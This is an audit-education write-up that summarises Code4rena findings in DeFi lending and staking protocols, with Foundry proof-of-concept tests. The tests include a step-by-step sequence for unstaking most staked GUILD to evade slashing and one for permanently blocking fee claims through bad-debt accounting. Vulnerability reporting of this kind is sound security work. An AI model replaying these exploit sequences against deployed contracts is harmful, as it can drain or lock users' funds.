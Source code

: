 # ETAAcademy-Adudit: 1. Bond

<table>
  <tr>
    <th>title</th>
    <th>tags</th>
  </tr>
  <tr>
    <td>01. Bond</td>
    <td>
      <table>
        <tr>
          <th>audit</th>
          <th>basic</th>
          <th>DeFi</th>
          <td>bond</td>
        </tr>
      </table>
    </td>
  </tr>
</table>

[Github](https://github.com/ETAAcademy)｜[Twitter](https://twitter.com/ETAAcademy)｜[ETA-Audit](https://github.com/ETAAcademy/ETAAcademy-Audit)

Authors: [Eta](https://twitter.com/pwhattie), looking forward to your joining

## 1.[Medium] LendingTerm.sol `_partialRepay()` A user cannot partial repay a loan with 0 interest

### Partial repay zero interest

- Summary: The problem arises from a requirement in the code that checks if `interestRepaid != 0`. This condition, meant to prevent small repayments, creates an issue when the loan has zero interest, making partial repayment impossible despite being feasible through `_repay()`.

- Impact & Recommendation: A possible solution would be to remove the `interestRepaid != 0` from the require in `_partialRepay()` .
  <br> 🐬: [Source](https://code4rena.com/reports/2023-12-ethereumcreditguild#m-14-lendingtermsol-_partialrepay-a-user-cannot-partial-repay-a-loan-with-0-interest) & [Report](https://code4rena.com/reports/2023-12-ethereumcreditguild)

  <details><summary>POC</summary>

  ```solidity
      function testPartialRepayWithZeroInterestFail() public {
        LendingTerm term2 = LendingTerm(
            Clones.clone(address(new LendingTerm()))
        );
        term2.initialize(
            address(core),
            term.getReferences(),
            LendingTerm.LendingTermParams({
                collateralToken: address(collateral),
                maxDebtPerCollateralToken: _CREDIT_PER_COLLATERAL_TOKEN,
                interestRate: 0,
                maxDelayBetweenPartialRepay: _MAX_DELAY_BETWEEN_PARTIAL_REPAY,
                minPartialRepayPercent: _MIN_PARTIAL_REPAY_PERCENT,
                openingFee: 0,
                hardCap: _HARDCAP
            })
        );
        vm.label(address(term2), "term2");
        guild.addGauge(1, address(term2));
        guild.decrementGauge(address(term), _HARDCAP);
        guild.incrementGauge(address(term2), _HARDCAP);
        vm.startPrank(governor);
        core.grantRole(CoreRoles.RATE_LIMITED_CREDIT_MINTER, address(term2));
        core.grantRole(CoreRoles.GAUGE_PNL_NOTIFIER, address(term2));
        vm.stopPrank();
        // prepare & borrow
        uint256 borrowAmount = 20_000e18;
        uint256 collateralAmount = 12e18;
        collateral.mint(address(this), collateralAmount);
        collateral.approve(address(term2), collateralAmount);
        bytes32 loanId = term2.borrow(borrowAmount, collateralAmount);
        assertEq(term2.getLoan(loanId).collateralAmount, collateralAmount);
        vm.warp(block.timestamp + 10);
        vm.roll(block.number + 1);

        // check that the loan amount is the same as the initial borrow amount to ensure there are no accumulated interest
        assertEq(term2.getLoanDebt(loanId), 20_000e18);
        credit.mint(address(this), 10_000e18);
        credit.approve(address(term2), 10_000e18);
        vm.expectRevert("LendingTerm: repay too small");
        term2.partialRepay(loanId, 10_000e18);
    }

  ```

  </details>

## 2.[Medium] Over 90% of the Guild staked in a gauge can be unstaked, despite the gauge utilizing its full debt allocation

### Manipulate the gauge's debt allocation by tolerance

- Summary: The mentioned protocol utilizes a tolerance factor to extend a gauge's debt ceiling by 20%. By exploiting this tolerance, it becomes possible to manipulate the gauge's debt allocation. Specifically, if a gauge's debt allocation is at 100%, it's feasible to decrease the gaugeWeight by a specific amount. After applying the tolerance, the gauge's debt allocation remains unchanged. This manipulation allows unstaking approximately 16.6666% of the totalWeight at a time, given the current operational state.

- Impact: By repetitively exploiting this vulnerability, it's possible to unstake over 90% of the total staked Guild from the gauge, effectively evading potential slashing penalties. Before adjusting the gaugeWeight, an initial check can be implemented to determine if the gauge is already utilizing its full debt allocation. If it is, any attempt to unstake Guild should be prevented to avoid potential issues.
  <br> 🐬: [Source](https://code4rena.com/reports/2023-12-ethereumcreditguild#m-19-over-90-of-the-guild-staked-in-a-gauge-can-be-unstaked-despite-the-gauge-utilizing-its-full-debt-allocation) & [Report](https://code4rena.com/reports/2023-12-ethereumcreditguild)

  <details><summary>POC</summary>

  ```solidity
    // SPDX-License-Identifier: GPL-3.0-or-later
    pragma solidity 0.8.13;
    import {Clones} from "@openzeppelin/contracts/proxy/Clones.sol";
    import {Test} from "@forge-std/Test.sol";
    import {Core} from "@src/core/Core.sol";
    import {CoreRoles} from "@src/core/CoreRoles.sol";
    import {MockERC20} from "@test/mock/MockERC20.sol";
    import {SimplePSM} from "@src/loan/SimplePSM.sol";
    import {GuildToken} from "@src/tokens/GuildToken.sol";
    import {CreditToken} from "@src/tokens/CreditToken.sol";
    import {LendingTerm} from "@src/loan/LendingTerm.sol";
    import {AuctionHouse} from "@src/loan/AuctionHouse.sol";
    import {ProfitManager} from "@src/governance/ProfitManager.sol";
    import {RateLimitedMinter} from "@src/rate-limits/RateLimitedMinter.sol";
    contract UnstakeAtDebtCeiling is Test {
        address private governor = address(1);
        address private guardian = address(2);
        address user = address(0x01010101);
        address borrower = address(0x02020202);
        address lender = address(0x03030303);
        Core private core;
        ProfitManager private profitManager;
        CreditToken credit;
        GuildToken guild;
        MockERC20 collateral;
        MockERC20 pegToken;
        SimplePSM private psm;
        RateLimitedMinter rlcm;
        AuctionHouse auctionHouse;
        LendingTerm term;
        // LendingTerm params (same as deployment script)
        uint256 constant _CREDIT_PER_COLLATERAL_TOKEN = 1e18; // 1:1
        uint256 constant _INTEREST_RATE = 0.04e18; // 4% APR
        uint256 constant _MAX_DELAY_BETWEEN_PARTIAL_REPAY = 0;
        uint256 constant _MIN_PARTIAL_REPAY_PERCENT = 0;
        uint256 constant _HARDCAP = 2_000_000e18; // 2 million
        uint256 public issuance = 0;
        function setUp() public {
            vm.warp(1679067867);
            vm.roll(16848497);
            core = new Core();
            profitManager = new ProfitManager(address(core));
            collateral = new MockERC20();
            pegToken = new MockERC20(); // 18 decimals for easy calculations (deployment script uses USDC which has 6 decimals)
            credit = new CreditToken(address(core), "name", "symbol");
            guild = new GuildToken(
                address(core),
                address(profitManager)
            );
            rlcm = new RateLimitedMinter(
                address(core) /*_core*/,
                address(credit) /*_token*/,
                CoreRoles.RATE_LIMITED_CREDIT_MINTER /*_role*/,
                0 /*_maxRateLimitPerSecond*/,
                0 /*_rateLimitPerSecond*/,
                uint128(_HARDCAP) /*_bufferCap*/
            );
            auctionHouse = new AuctionHouse(address(core), 650, 1800);
            term = LendingTerm(Clones.clone(address(new LendingTerm())));
            term.initialize(
                address(core),
                LendingTerm.LendingTermReferences({
                    profitManager: address(profitManager),
                    guildToken: address(guild),
                    auctionHouse: address(auctionHouse),
                    creditMinter: address(rlcm),
                    creditToken: address(credit)
                }),
                LendingTerm.LendingTermParams({
                    collateralToken: address(collateral),
                    maxDebtPerCollateralToken: _CREDIT_PER_COLLATERAL_TOKEN,
                    interestRate: _INTEREST_RATE,
                    maxDelayBetweenPartialRepay: _MAX_DELAY_BETWEEN_PARTIAL_REPAY,
                    minPartialRepayPercent: _MIN_PARTIAL_REPAY_PERCENT,
                    openingFee: 0,
                    hardCap: _HARDCAP
                })
            );
            psm = new SimplePSM(
                address(core),
                address(profitManager),
                address(credit),
                address(pegToken)
            );
            profitManager.initializeReferences(address(credit), address(guild), address(psm));
            // roles
            core.grantRole(CoreRoles.GOVERNOR, governor);
            core.grantRole(CoreRoles.GUARDIAN, guardian);
            core.grantRole(CoreRoles.CREDIT_MINTER, address(this));
            core.grantRole(CoreRoles.GUILD_MINTER, address(this));
            core.grantRole(CoreRoles.GAUGE_ADD, address(this));
            core.grantRole(CoreRoles.GAUGE_PARAMETERS, address(this));
            core.grantRole(CoreRoles.CREDIT_MINTER, address(rlcm));
            core.grantRole(CoreRoles.RATE_LIMITED_CREDIT_MINTER, address(term));
            core.grantRole(CoreRoles.CREDIT_MINTER, address(psm));
            core.renounceRole(CoreRoles.GOVERNOR, address(this));
            // add gauge
            guild.setMaxGauges(10);
            guild.addGauge(1, address(term));
        }
        function testUnstakeAtFullDebtAllocation() public {
            // verify initial state
            LendingTerm.LendingTermParams memory params = term.getParameters();
            assertEq(params.hardCap, _HARDCAP);
            assertEq(term.issuance(), 0);
            assertEq(credit.totalSupply(), 0);
            assertEq(psm.redeemableCredit(), 0);
            assertEq(guild.getGaugeWeight(address(term)), 0);
            assertEq(rlcm.buffer(), _HARDCAP);
            // 2 million GUILD is staked into term
            guild.mint(user, _HARDCAP);
            vm.startPrank(user);
            guild.incrementGauge(address(term), _HARDCAP);
            vm.stopPrank();
            assertEq(guild.getGaugeWeight(address(term)), _HARDCAP);
            assertEq(guild.getUserWeight(user), _HARDCAP);
            // 2 million CREDIT is borrowed from term
            uint256 borrowAmount = _HARDCAP;
            uint256 collateralAmount = _HARDCAP;
            collateral.mint(borrower, collateralAmount);
            vm.startPrank(borrower);
            collateral.approve(address(term), collateralAmount);
            term.borrow(borrowAmount, collateralAmount);
            vm.stopPrank();
            assertEq(term.issuance(), _HARDCAP);
            assertEq(rlcm.buffer(), 0);
            assertEq(credit.totalSupply(), _HARDCAP);
            // 2 million CREDIT is minted from PSM
            pegToken.mint(lender, _HARDCAP);
            vm.startPrank(lender);
            pegToken.approve(address(psm), _HARDCAP);
            psm.mint(lender, _HARDCAP);
            vm.stopPrank();
            assertEq(credit.totalSupply(), _HARDCAP * 2);
            assertEq(psm.redeemableCredit(), _HARDCAP);
            // all 2 million loaned CREDIT gets redeemed in PSM by borrowers
            vm.startPrank(borrower);
            credit.approve(address(psm), _HARDCAP);
            psm.redeem(borrower, _HARDCAP);
            vm.stopPrank();
            assertEq(credit.totalSupply(), _HARDCAP);
            assertEq(psm.redeemableCredit(), 0);
            // verify state
            assertEq(collateral.balanceOf(address(term)), _HARDCAP);
            assertEq(credit.balanceOf(borrower), 0);
            assertEq(credit.balanceOf(lender), _HARDCAP);
            assertEq(credit.totalSupply(), _HARDCAP);
            assertEq(term.issuance(), _HARDCAP);
            assertEq(psm.redeemableCredit(), 0);
            assertEq(rlcm.buffer(), 0);
            assertEq(guild.getGaugeWeight(address(term)), _HARDCAP);
            assertEq(guild.totalWeight(), _HARDCAP);
            assertEq(guild.getUserWeight(user), _HARDCAP);
            assertEq(profitManager.gaugeWeightTolerance(), 1.2e18);
            // user tries to unstake various amounts at debtCeiling, but correctly fails
            vm.startPrank(user);
            vm.expectRevert("GuildToken: debt ceiling used");
            guild.decrementGauge(address(term), _HARDCAP);
            vm.expectRevert("GuildToken: debt ceiling used");
            guild.decrementGauge(address(term), 500_000e18);
            vm.expectRevert("GuildToken: debt ceiling used");
            guild.decrementGauge(address(term), 100e18);
            vm.stopPrank();
            // user successfully unstakes ~16.66%, despite term being at full debt allocation
            uint256 totalUnstaked;
            uint256 correction;
            uint256 unstakeAmount = 333333333333333333333333;

            emit log_named_uint("Gauge Weight before unstake", guild.getGaugeWeight(address(term)));
            vm.startPrank(user);
            guild.decrementGauge(address(term), unstakeAmount);
            vm.stopPrank();
            totalUnstaked += unstakeAmount;

            emit log_named_uint("Gauge Weight after 1st unstake", guild.getGaugeWeight(address(term)));
            verifyState(0, totalUnstaked);

            // user successfully unstakes another ~16.66%
            correction += 1;
            unstakeAmount = 277777777777777777777778;
            vm.startPrank(user);
            guild.incrementGauge(address(term), correction); // to handle rounding issues
            guild.decrementGauge(address(term), unstakeAmount);
            vm.stopPrank();
            totalUnstaked += unstakeAmount;
            emit log_named_uint("Gauge Weight after 2nd unstake", guild.getGaugeWeight(address(term)));
            verifyState(correction, totalUnstaked);
            // user successfully unstakes another ~16.66%
            unstakeAmount = 231481481481481481481481;

            vm.startPrank(user);
            guild.decrementGauge(address(term), unstakeAmount);
            vm.stopPrank();
            totalUnstaked += unstakeAmount;
            emit log_named_uint("Gauge Weight after 3rd unstake", guild.getGaugeWeight(address(term)));
            verifyState(correction, totalUnstaked);
            // user successfully unstakes another ~16.66%
            unstakeAmount = 192901234567901234567901;
            vm.startPrank(user);
            guild.decrementGauge(address(term), unstakeAmount);
            vm.stopPrank();
            totalUnstaked += unstakeAmount;
            emit log_named_uint("Gauge Weight after 4th unstake", guild.getGaugeWeight(address(term)));
            verifyState(correction, totalUnstaked);
            // user successfully unstakes another ~16.66%
            correction += 5493827160493827160492; // to make calculations easier
            unstakeAmount = 161666666666666666666666;
            vm.startPrank(user);
            guild.incrementGauge(address(term), 5493827160493827160492);
            guild.decrementGauge(address(term), unstakeAmount);
            vm.stopPrank();
            totalUnstaked += unstakeAmount;
            emit log_named_uint("Gauge Weight after 5th unstake", guild.getGaugeWeight(address(term)));
            verifyState(correction, totalUnstaked);
            // user successfully unstakes another ~16.66%
            unstakeAmount = 134722222222222222222222;
            vm.startPrank(user);
            guild.decrementGauge(address(term), unstakeAmount);
            vm.stopPrank();
            totalUnstaked += unstakeAmount;
            emit log_named_uint("Gauge Weight after 6th unstake", guild.getGaugeWeight(address(term)));
            verifyState(correction, totalUnstaked);
            // user successfully unstakes another ~16.66%
            unstakeAmount = 112268518518518518518518;
            vm.startPrank(user);
            guild.decrementGauge(address(term), unstakeAmount);
            vm.stopPrank();
            totalUnstaked += unstakeAmount;
            emit log_named_uint("Gauge Weight after 7th unstake", guild.getGaugeWeight(address(term)));
            verifyState(correction, totalUnstaked);
            // user successfully unstakes another ~16.66%
            unstakeAmount = 93557098765432098765432;
            vm.startPrank(user);
            guild.decrementGauge(address(term), unstakeAmount);
            vm.stopPrank();
            totalUnstaked += unstakeAmount;
            emit log_named_uint("Gauge Weight after 8th unstake", guild.getGaugeWeight(address(term)));
            verifyState(correction, totalUnstaked);
            // user successfully unstakes another ~16.66%
            correction += 103395061728395061726; // to make calculations easier
            unstakeAmount = 77981481481481481481481;
            vm.startPrank(user);
            guild.incrementGauge(address(term), 103395061728395061726);
            guild.decrementGauge(address(term), unstakeAmount);
            vm.stopPrank();
            totalUnstaked += unstakeAmount;
            emit log_named_uint("Gauge Weight after 9th unstake", guild.getGaugeWeight(address(term)));
            verifyState(correction, totalUnstaked);
            // user successfully unstakes another ~16.66%
            unstakeAmount = 64984567901234567901234;
            vm.startPrank(user);
            guild.decrementGauge(address(term), unstakeAmount);
            vm.stopPrank();
            totalUnstaked += unstakeAmount;
            emit log_named_uint("Gauge Weight after 10th unstake", guild.getGaugeWeight(address(term)));
            verifyState(correction, totalUnstaked);
            // user successfully unstakes another ~16.66%
            correction += 160493827160493827; // to make calculations easier
            unstakeAmount = 54153833333333333333333;
            vm.startPrank(user);
            guild.incrementGauge(address(term), 160493827160493827);
            guild.decrementGauge(address(term), unstakeAmount);
            vm.stopPrank();
            totalUnstaked += unstakeAmount;
            emit log_named_uint("Gauge Weight after 11th unstake", guild.getGaugeWeight(address(term)));
            verifyState(correction, totalUnstaked);
            // user successfully unstakes another ~16.66%
            unstakeAmount = 45128194444444444444444;
            vm.startPrank(user);
            guild.decrementGauge(address(term), unstakeAmount);
            vm.stopPrank();
            totalUnstaked += unstakeAmount;
            emit log_named_uint("Gauge Weight after 12th unstake", guild.getGaugeWeight(address(term)));
            verifyState(correction, totalUnstaked);
            // user successfully unstakes another ~16.66%
            correction += 1;
            unstakeAmount = 37606828703703703703704;
            vm.startPrank(user);
            guild.incrementGauge(address(term), 1);
            guild.decrementGauge(address(term), unstakeAmount);
            vm.stopPrank();
            totalUnstaked += unstakeAmount;
            emit log_named_uint("Gauge Weight after 13th unstake", guild.getGaugeWeight(address(term)));
            verifyState(correction, totalUnstaked);
            emit log_named_uint("Number of GUILD user has unstaked so far", totalUnstaked);
            // user can keep performing these calculations to unstake more GUILD
            // calculations occurring in `LendingTerm::debtCeiling`:
            // uint256 totalWeight = guild.totalTypeWeight(1);
            // uint256 gaugeWeight = totalWeight - unstakeAmount;
            // uint256 tolerance = profitManager.gaugeWeightTolerance(); // 1.2e18
            // uint256 toleratedGaugeWeight = (gaugeWeight * tolerance) / 1e18; // totalWeight
            // uint256 debtCeilingBefore = (totalBorrowedCredit * toleratedGaugeWeight) / totalWeight; // 2_000_000e18
            // ideal unstakeAmount ~= totalWeight + ((totalBorrowedCredit * totalWeight) / tolerance) *with a lot of precision*
            // a.k.a totalWeight * .16666... *high high precision*
            // the goal is to make `toleratedGaugeWeight == totalWeight`, assuming that totalBorrowedCredit == issuance
        }
        function verifyState(uint256 correction, uint256 unstaked) internal {
            // verify state
            assertEq(credit.totalSupply(), _HARDCAP);
            assertEq(term.issuance(), _HARDCAP); // issuance is at hardCap/debtCeiling
            assertEq(psm.redeemableCredit(), 0);
            assertEq(rlcm.buffer(), 0); // global debtCeiling hit
            assertEq(guild.getGaugeWeight(address(term)), _HARDCAP + correction - unstaked);
            assertEq(guild.totalWeight(), _HARDCAP + correction - unstaked);
            assertEq(guild.getUserWeight(user), _HARDCAP + correction - unstaked);
        }
    }

  ```

  </detail>

## 3.[Medium] LendingTerm inconsistency between debt ceiling as calculated in borrow() and debtCeiling()

### DebtCeiling calculation

- Summary: There's a discrepancy in debtCeiling calculation between the borrow() and debtCeiling() functions in the LendingTerm contract. This inconsistency not only causes operational differences but also affects liquidity utilization. The borrow() function calculates a more restrictive debtCeiling, leading to underutilized liquidity compared to the debtCeiling() function.

- Impact & Recommendation: Unify the debtCeiling calculation method across the protocol to avoid lost income opportunities for lenders due to unused liquidity not generating interest
  <br> 🐬: [Source](https://code4rena.com/reports/2023-12-ethereumcreditguild#m-22-lendingterm-inconsistency-between-debt-ceiling-as-calculated-in-borrow-and-debtceiling) & [Report](https://code4rena.com/reports/2023-12-ethereumcreditguild)

  <details><summary>POC</summary>

  - `borrow()` function calculates the `debtCeiling` using a simpler formula:

    - debtCeiling = $\frac{(Gauge Weight × (Total Borrowed Credit + Borrow Amount))}{Total Weight} × Gauge Weight Tolerance$

  - `debtCeiling()` function's calculation method is more complex:
    - debtCeiling = $(((\frac{Total BorrowedCredit × (Gauge Weight × 1.2e18)}{Total Weight}) - Issuance) × \frac{Total Weight}{Other Cauges Weight}) + Issuance$

  </details>

## 4.[Medium] ProfitManager’s creditMultiplier calculation does not count undistributed rewards; this can cause value losses to users

### CreditMultiplier calculation consider undistributed rewards

- Summary: The ProfitManager's creditMultiplier calculation doesn't consider undistributed rewards, leading to potential losses for users. When losses occur, excess amounts are attributed to credit token holders by slashing the creditMultiplier, `newCreditMultiplier = (creditMultiplier *  (creditTotalSupply - loss)) / creditTotalSupply;` . However, using totalSupply() can be problematic if a significant portion of the supply is in undistributed rewards, resulting in higher-than-necessary creditMultiplier slashing.

- Impact & Recommendation: CreditMultiplier slashing is higher than necessary due to incorrect accounting, penalizing credit token holders and locking value in the protocol. Consider using targetTotalSupply() instead of totalSupply() to rectify this issue.
  <br> 🐬: [Source]([M-24] ProfitManager’s creditMultiplier calculation does not count undistributed rewards; this can cause value losses to users) & [Report](https://code4rena.com/reports/2023-12-ethereumcreditguild)

  <details><summary>POC</summary>

  ```solidity

      function testH2() external {
        uint ts = block.timestamp;
        // Set ProfitManager to 100% rewards for rebasing users
        pm.setProfitSharingConfig(
            0,          // surplusBufferSplit,
            1e18,       // creditSplit,
            0,          // guildSplit,
            0,          // otherSplit,
            address(0)  // otherRecipient
        );

        // User 1 deposit 3000 USDC in PSM, gets 3000 gUSDC, enters rebase
        address user1 = address(1);
        vm.startPrank(user1);
        coll.mint(user1, 3_000e18);
        coll.approve(address(sPsm), 3_000e18);
        sPsm.mintAndEnterRebase(3_000e18);
        // User 2 open Loan A, 1000 gUSDC, redeems for 1000 USDC
        address user2 = address(2);
        vm.startPrank(user2);
        coll.mint(user2, 1_000e18);
        coll.approve(address(lt), 1_000e18);
        bytes32 loanA = lt.borrow(1_000e18, 1_000e18);
        ct.approve(address(sPsm), 1_000e18);
        sPsm.redeem(user2, 1_000e18);
        // User 3 open Loan B, 1000 gUSDC, redeems for 1000 USDC
        address user3 = address(3);
        vm.startPrank(user3);
        coll.mint(user3, 1_000e18);
        coll.approve(address(lt), 1_000e18);
        bytes32 loanB = lt.borrow(1_000e18, 1_000e18);
        ct.approve(address(sPsm), 1_000e18);
        sPsm.redeem(user3, 1_000e18);
        // User 4 open Loan C, 1000 gUSDC, redeems for 1000 USDC
        address user4 = address(4);
        vm.startPrank(user4);
        coll.mint(user4, 1_000e18);
        coll.approve(address(lt), 1_000e18);
        bytes32 loanC = lt.borrow(1_000e18, 1_000e18);
        ct.approve(address(sPsm), 1_000e18);
        sPsm.redeem(user4, 1_000e18);
        // Time passes, all loans accrue 50% interest, loan B gets called
        ts += lt.YEAR() - 3 weeks;
        vm.warp(ts);
        lt.call(loanB);
        ts += 3 weeks;
        vm.warp(ts);
        // User 2 deposit 1500 USDC in PSM, gets 1500 gUSDC, and repay Loan A (500 profit) -> 1500 USDC in PSM
        vm.startPrank(user2);
        coll.mint(user2, 500e18);
        coll.approve(address(sPsm), 1500e18);
        sPsm.mint(user2, 1500e18);
        ct.approve(address(lt), 1500e18);
        lt.repay(loanA);
        // Now User 1's 3000 gUSDC balance is interpolating towards 3500 gUSDC
        assertEq(3_000e18, ct.totalSupply());
        assertEq(ct.totalSupply(), ct.balanceOf(user1));
        assertEq(3_500e18, ct.targetTotalSupply());
        // ---  Everything good till here; now we get to the bug:
        // User 3 completely defaults on Loan B, 1000 gUSDC loss is reported,
        // creditMultiplier becomes 1e18 * (3000 - 1000) / 3000 = 0.6667e18
        // 🚨 if targetTotalSupply was used, this would be 1e18 * (3500 - 1000) / 3500 = 0.714285e18
        ah.forgive(loanB);
        assertApproxEqRel(pm.creditMultiplier(), 0.6667e18, 0.0001e18 /* 0.01% */);
        // User 4's Loan C now owes 1500 / 0.66667 = 2250 gUSDC
        uint loanCdebt = lt.getLoanDebt(loanC);
        assertApproxEqRel(loanCdebt, 2250e18, 0.0001e18 /* 0.01% */);
        // User 4 deposit 1500 USDC in PSM, gets 2250 gUSDC, and repay Loan C (750 profit) -> 3000 USDC in PSM
        vm.startPrank(user4);
        coll.mint(user4, 500e18);
        coll.approve(address(sPsm), 1500e18);
        sPsm.mint(user4, 1500e18);
        ct.approve(address(lt), loanCdebt);
        lt.repay(loanC);

        // Now User 1's 3000 gUSDC balance is interpolating towards 4250
        assertEq(3_000e18, ct.totalSupply());
        assertEq(ct.totalSupply(), ct.balanceOf(user1));
        assertApproxEqRel(4_250e18, ct.targetTotalSupply(), 0.0001e18 /* 0.01% */);
        // User 1 waits for the interpolation to end
        ts += ct.DISTRIBUTION_PERIOD();
        vm.warp(ts);
        // User 1 redeems 4250 gUSDC for 4250 * 0.66667 = 2833 USDC -> 167 USDC in PSM (🚨 there should be no leftover)
        vm.startPrank(user1);
        ct.approve(address(sPsm), ct.balanceOf(user1));
        sPsm.redeem(user1, ct.balanceOf(user1));
        assertApproxEqRel(2833.3e18, coll.balanceOf(user1), 0.0001e18 /* 0.01% */);
        // 🚨 this value remains locked in the SimplePSM contract as a result of the incorrect accounting
        assertApproxEqRel(166.66e18, coll.balanceOf(address(sPsm)), 0.0001e18 /* 0.01% */);
        // ℹ️ if ProfitManager used targetTotalSupply, the value locked would be ~2e4 lost to rounding

  }

  ```

  </details>

## 5. [Medium] Unbond_instant removes incorrect amount of shares

### Removes shares without fees

- Summary: The problem lies in the `unbond_instant` function, where users can immediately unbond their shares but must pay a fee. However, a mistake in the code results in the fee not being considered when removing shares by `final_amount`, leaving some shares stuck in the system and continuing to accumulate rewards. This creates an unfair advantage for users who unbond instantly, as their shares still receive rewards while others cannot access them and one share no longer corresponds to one underlying token due to this issue.

- Impact & Recommendation: For the unbond_instant function, the code mistakenly uses the final_amount instead of change.change to remove shares.

<br> 🐬: [Source](https://code4rena.com/reports/2024-03-acala#m-03-unbond_instant-removes-incorrect-amount-of-shares) & [Report](https://code4rena.com/reports/2024-03-acala)

<details><summary>POC</summary>

```solidity

  + println!("change.change: {:?}", change.change);
  144: T::OnBonded::happened(&(who.clone(), change.change));
  145: Self::deposit_event(Event::Bonded {
  146: 	who,
  147: 	amount: change.change,
  148: });

  + println!("final_amount: {:?}", final_amount);
  196: T::OnUnbonded::happened(&(who.clone(), final_amount));
  197: Self::deposit_event(Event::InstantUnbonded {
  198: 	who,
  199: 	amount: final_amount,
  200: 	fee,
  201: });

```

</details>

## 6. [High] Incorrect bad debt accounting can lead to a state where the claimFeesBeneficial function is permanently bricked and no new incentives can be distributed, potentially locking pending and future protocol fees in the FeeManager contract

### Bad Debt & incentives

- Summary: Fees go to `FeeManager`, but incentives are only distributed if there's no global bad debt. Beneficials can claim fees, but not when there's bad debt. If a position undergoes multiple partial liquidations, each incrementing `totalBadDebtETH`, but only the most recent bad debt is recorded for the position, causing an imbalance. While paying back bad debt is possible, it's capped at the recorded amount for the position, leaving excess bad debt in totalBadDebtETH permanently. Thus, this bad debt can become permanent due to partial liquidations, blocking fee claims and incentive distributions.

- Impact & Recommendation: In `WiseSecurity::checkBadDebtLiquidation`, it's advisable to update totalBadDebtETH by the difference between the previous and new bad debt of a position, aligning with the logic in `FeeManagerHelper::_updateUserBadDebt`.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-02-wise-lending#h-03-incorrect-bad-debt-accounting-can-lead-to-a-state-where-the-claimfeesbeneficial-function-is-permanently-bricked-and-no-new-incentives-can-be-distributed-potentially-locking-pending-and-future-protocol-fees-in-the-feemanager-contract) & [Report](https://code4rena.com/reports/2024-02-wise-lending)

  <details><summary>POC</summary>

  ```solidity
    // SPDX-License-Identifier: -- WISE --
    pragma solidity =0.8.24;
    import "./WiseLendingBaseDeployment.t.sol";
    contract BadDebtTest is BaseDeploymentTest {
        address borrower = address(0x01010101);
        address lender = address(0x02020202);
        uint256 depositAmountETH = 10e18; // 10 ether
        uint256 depositAmountToken = 10; // 10 ether
        uint256 borrowAmount = 5e18; // 5 ether
        uint256 nftIdLiquidator; // nftId of lender
        uint256 nftIdLiquidatee; // nftId of borrower
        uint256 debtShares;
        function _setupIndividualTest() internal override {
            _deployNewWiseLending(false);
            // set token value for simple calculations
            MOCK_CHAINLINK_2.setValue(1 ether); // 1 token == 1 ETH
            assertEq(MOCK_CHAINLINK_2.latestAnswer(), MOCK_CHAINLINK_ETH_ETH.latestAnswer());
            vm.stopPrank();

            // fund lender and borrower
            vm.deal(lender, depositAmountETH);
            deal(address(MOCK_WETH), lender, depositAmountETH);
            deal(address(MOCK_ERC20_2), borrower, depositAmountToken * 2);
        }
        function testScenario1() public {
            // --- scenario is set up --- //
            _setUpScenario();
            // --- shortfall event/crash creates bad debt, position partially liquidated logging bad debt --- //
            _marketCrashCreatesBadDebt();
            // --- borrower gets partially liquidated again --- //
            vm.prank(lender);
            LENDING_INSTANCE.liquidatePartiallyFromTokens(
                nftIdLiquidatee,
                nftIdLiquidator,
                address(MOCK_WETH),
                address(MOCK_ERC20_2),
                debtShares * 2e16 / 1e18
            );
            // --- global bad det increases again, but user bad debt is set to current bad debt created --- //
            uint256 newTotalBadDebt = FEE_MANAGER_INSTANCE.totalBadDebtETH();
            uint256 newUserBadDebt = FEE_MANAGER_INSTANCE.badDebtPosition(nftIdLiquidatee);

            assertGt(newUserBadDebt, 0); // userBadDebt reset to new bad debt, newUserBadDebt == current_bad_debt_created
            assertGt(newTotalBadDebt, newUserBadDebt); // global bad debt incremented again
            // newTotalBadDebt = old_global_bad_debt + current_bad_debt_created

            // --- user bad debt is paid off, but global bad is only partially paid off (remainder is fake debt) --- //
            _tryToPayBackGlobalDebt();
            // --- protocol fees can no longer be claimed since totalBadDebtETH will remain > 0 --- //
            vm.expectRevert(bytes4(keccak256("ExistingBadDebt()")));
            FEE_MANAGER_INSTANCE.claimFeesBeneficial(address(0), 0);
        }
        function testScenario2() public {
            // --- scenario is set up --- //
            _setUpScenario();
            // --- shortfall event/crash creates bad debt, position partially liquidated logging bad debt --- //
            _marketCrashCreatesBadDebt();

            // --- Position manipulated so second partial liquidation results in totalBorrow == bareCollateral --- //
            // borrower adds collateral
            vm.prank(borrower);
            LENDING_INSTANCE.solelyDeposit(
                nftIdLiquidatee,
                address(MOCK_ERC20_2),
                6
            );
            // borrower gets partially liquidated again
            vm.prank(lender);
            LENDING_INSTANCE.liquidatePartiallyFromTokens(
                nftIdLiquidatee,
                nftIdLiquidator,
                address(MOCK_WETH),
                address(MOCK_ERC20_2),
                debtShares * 2e16 / 1e18
            );

